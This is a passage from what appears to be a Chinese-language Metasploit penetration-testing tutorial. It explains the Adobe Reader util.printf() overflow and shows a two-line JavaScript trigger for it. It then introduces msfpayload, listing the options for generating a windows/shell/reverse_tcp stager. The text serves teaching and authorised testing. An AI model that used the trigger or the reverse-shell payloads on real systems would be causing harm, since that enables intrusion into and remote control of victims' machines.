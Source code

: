 ## 它是如何工作的...

这个问题是在易受攻击的 Adobe Reader 版本中实现 JavaScript `util.printf()`函数的方式中被发现的。该函数首先将其接收到的参数转换为字符串，只使用参数的前 16 位数字，并用固定值“0”（0x30）填充其余部分。通过向函数传递过长且格式正确的命令，可以覆盖程序的内存并控制其执行流程。Metasploit 模块创建了一个特别设计的 PDF 文件，嵌入了 JavaScript 代码来操纵程序的内存分配模式并触发漏洞。这可以让攻击者以运行 Adobe Reader 应用程序的用户权限执行任意代码。

考虑嵌入在 PDF 中的以下两行 JavaScript 代码：

```
var num = 1.2
util.printf("%5000f",num) 
```

这两行简单的 JavaScript 代码会在堆栈上复制 5000 次字节 0x20。这允许你控制异常处理程序，并在尝试写入堆栈后面的部分时触发异常。

# 从 msfpayload 生成二进制和 shellcode

到目前为止，我们已经讨论了许多可以用于利用客户端攻击渗透目标机器的技术。所有这些技术都涉及利用运行在客户端机器上的各种应用软件中的漏洞。但是，可能存在一种情况，先前讨论的技术可能无法奏效。这些攻击使我们处于对应用软件的漏洞的控制之下，我们必须利用这些漏洞以获取访问权限。

Metasploit 为我们提供了另一个功能，我们可以执行客户端攻击，而不必担心利用目标机器上运行的应用软件。`msfpayload`就是解决方案。让我们简要介绍一下`msfpayload`，然后继续实际实施。

`msfpayload`是 Metasploit 的命令行实例，用于生成 Metasploit 存储库中可用的各种文件类型的 shellcode。可用的文件类型选项包括 C、Ruby、Raw、Exe、Dll、VBA 和 War。我们可以使用`msfpayload`将任何 Metasploit shellcode 转换为这些提到的文件格式之一。然后，它可以传输到目标机器上执行。一旦文件在目标机器上执行，我们将获得一个活动会话。这减少了利用目标机器上运行的应用软件中存在的任何漏洞的开销。`msfpayload`的另一个主要好处是，它可以用于生成特定编程语言（如 C、Ruby 等）的定制 shellcode，这些 shellcode 可以在您自己的利用开发代码中使用。

使用`msfpayload`的一个主要缺点是，当目标尝试执行它时，使用它生成的文件很容易被杀毒程序检测到。让我们继续前进，感受一下`msfpayload`可以为我们的渗透测试过程增添的力量。

## 准备工作

让我们开始尝试`msfpayload`。我们将从启动 BackTrack 终端开始。我们可以使用命令`msfpayload -h`来查看其用法的描述。

```
root@bt:~# msfpayload -h
Usage: /opt/framework3/msf3/msfpayload [<options>] <payload> [var=val] <[S]ummary|C|[P]erl|Rub[y]|[R]aw|[J]s|e[X]e|[D]ll|[V]BA|[W]ar> 
```

要查看可用的 shellcode 列表，我们可以使用`msfpayload -l`命令。您将发现我们可以使用的大量可用 shellcode 列表。

## 如何做...

让我们继续看看如何在 C 语言中生成特定定制的 shellcode。我们将使用`windows/shell/reverse_tcp`有效载荷来生成其 C 语言的 shellcode。我们将首先选择我们各自的有效载荷 shell 并传递各种参数值。

```
root@bt:~# msfpayload windows/shell/reverse_tcp o
Name: Windows Command Shell, Reverse TCP Stager
Module: payload/windows/shell/reverse_tcp
Version: 10394, 11421
Platform: Windows
Arch: x86
Needs Admin: No
Total size: 290
Rank: Normal
Basic options:
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LHOST yes The listen address
LPORT 4444 yes The listen port 
```

